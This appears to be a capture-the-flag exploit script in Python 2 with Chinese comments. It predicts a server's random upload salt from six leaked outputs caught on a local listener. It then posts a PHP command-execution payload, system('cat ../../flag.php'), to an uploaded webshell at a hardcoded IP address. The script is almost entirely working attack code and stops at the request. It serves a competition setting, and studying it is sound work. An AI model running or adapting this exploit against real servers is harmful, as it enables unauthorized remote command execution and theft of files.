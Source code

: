 ```
#监听8888端口，接受6个`get_rand_code`的结果，然后预测接下来一次`get_rand_code`的结果，这里可能不会很准确，
#所以需要小幅度爆破，复杂度大概为3^6，反正就跑着呗

#!/usr/bin/env python
#-*- coding:utf-8 -*-
#by xishir
import requests as req
import re
from socket import *  
from time import ctime  
import random
import itertools as its
import hashlib

r=req.session()
url="http://120.78.57.208:6005/"


def get_rand_list():
    HOST = ''  
    PORT = 8888
    BUFSIZ = 128  
    ADDR = (HOST, PORT)  
    tcpSerSock = socket(AF_INET, SOCK_STREAM)
    tcpSerSock.bind(ADDR)
    tcpSerSock.listen(5)
    rand_num=0
    l=[]
    while True:
        tcpCliSock, addr = tcpSerSock.accept()  
        while True:  
            data = tcpCliSock.recv(BUFSIZ)  
            if not data:  
                break  
            data=data[0:6]
	    print data,l
            for i in data:
                l.append(ord(i)+1-ord('a'))
        rand_num+=1
      	if rand_num==6:
      		break
    tcpCliSock.close()  
    tcpSerSock.close()
    return l

def get_salt(l):
    salt=""
    for i in range(6):
        j=len(l)
        r=(l[j-3]+l[j-31])-1
        if r>26:
        	r-=26
        #print l[j-3],chr(l[j-3]+ord('a')-1),l[j-31],chr(l[j-31]+ord('a')-1),r,chr(r+ord('a')-1)
        l.append(r)
        salt+=chr(r+ord('a')-1)
        #print salt
    return salt

def get_flag(salt):
    s=hashlib.sha1('119.23.73.3').hexdigest()
    url1=url+'/uploads/'+s+'/'+'moctf'+salt+'.php'
    data={"a":"system('cat ../../flag.php');echo '666666';"}
    r2=r.post(url1,data=data)
```